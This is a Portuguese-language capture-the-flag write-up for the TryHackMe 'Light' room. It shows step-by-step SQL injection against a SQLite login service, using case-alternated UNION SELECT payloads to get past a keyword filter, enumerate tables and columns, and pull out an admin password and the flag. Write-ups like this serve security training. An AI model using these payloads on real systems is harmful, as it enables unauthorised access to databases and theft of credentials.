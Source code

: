# Room - Light - TryHackMe 

Level: Easy

![image](https://github.com/user-attachments/assets/f22b9991-a50b-4283-9875-63043ec6dc2f)


Ao conectar no servidor, somos recebidos com um campo para inserir um username. Usando o username que o desafio fornece no enunciado, o servidor nos retorna senha desse usuário.

![image](https://github.com/user-attachments/assets/e3b8289d-fc2e-4437-8fd7-90fbf1a81bd2)


A primeira ideia foi tentar conectar via SSH com essas credenciais, mas não foi possível.

![image](https://github.com/user-attachments/assets/227af177-d11b-4a4d-9c71-8390642ef480)

Como o enunciado sugere que é um sistema de banco de dados, a segunda aproximação envolveu verificar se o sistema é vulnerável a ataques de SQL Injection.

Utilizando alguns dos payloads encontrados no repo https://github.com/payloadbox/sql-injection-payload-list, e baseado nas mensagens de erro, foi possível identificar que o engine usado no banco de dados era o SQLite

Testando o payload ' UNION SELECT 1+1' foi exibida uma mensagem indicando que existem filtros para algumas expressões e caracteres.

Felizmente as expressões do SQLite não são case-sensitive, então ao tentar alternar os caracteres entre maiúsculos e minúsculos, conseguimos bypassar o filtro e executar as operações normalmente.

' UnIoN SeLeCt 1+1 '

retornou o resultado: 2, indicando que o código estava sendo de fato executado pelo banco de dados.

![image](https://github.com/user-attachments/assets/67bc00e4-32bb-415c-8ba9-029551c7bca5)

A partir daí, o foco é em enumerar as informações das tabelas. Para isso, vamos prosseguir com o método de ataque utilizando as expressões UNION 
https://portswigger.net/web-security/sql-injection/union-attacks

Conforme a documentação do SQLite, disponível em https://www.sqlite.org/schematab.html Em todos os bancos de dados que utilizam essa engine, vai existir uma tabela que contém algumas 
informações sobre todas as outras tabelas.

CREATE TABLE sqlite_schema(
  type text,
  name text,
  tbl_name text,
  rootpage integer,
  sql text
);

Podendo receber esses nomes alternativos: 
    sqlite_master
    sqlite_temp_schema
    sqlite_temp_master 


Seguindo nosso procedimento para conseguir as informações, podemos utilizar o payload
' UNiON SeLect name FROM sqlite_master '

![image](https://github.com/user-attachments/assets/9c8fe118-20d6-4ed5-8098-9e788bfa805e)

Descobrimos a tabela admintable

Agora podemos fazer o mesmo processo dentro dessa tabela.
Para descobrir o nome das colunas, podemos realizar a consulta à estrutura pragma_table, conforme exemplificado nesse post do fórum do SQLite https://sqlite.org/forum/info/9add3c3898aed7c4

' UnIoN SeLect name from pragma_table_info('admintable') '
Primeira coluna: id

' UnIoN SeLect name from pragma_table_info('admintable') where name != 'id
Segunda coluna: password

' UnIon SeLect name from pragma_table_info('admintable') where name != 'id' and name != 'password
Terceira coluna: username

![image](https://github.com/user-attachments/assets/9fa1dbb6-63de-4cde-b674-569dbb22317e)

# Verificando os usernames
' UnIon SeLect username from admintable ' 
*TryHackMeAdmin*

' UnIoN SeLeCt password from admintable where username = 'TryHackMeAdmin
*mamZtAuMlrsEy5bp6q17*

![image](https://github.com/user-attachments/assets/5a91292a-f4e1-4713-94af-d967347c56c2)

Vamos tentar realizar o acesso via SSH com essas credenciais, mas novamente, não foi possível.

![image](https://github.com/user-attachments/assets/285923c5-f07a-46aa-bc91-a6c8b9176c98)

Realizando uma nova consulta ao banco de usuários 
' UnIon SeLect username from admintable where username != 'TryHackMeAdmin

Olha ela aí!, encontramos o usuário *flag* agora vamos ver se a flag está na senha 
' UnIoN SeLeCt password from admintable where username = 'flag

![image](https://github.com/user-attachments/assets/cabcb408-fc4e-4a13-9cfa-4622a0c4a644)

E Foi!
Encontramos a flag
THM{SQLit3_InJ3cTion_is_SimplE_nO?}

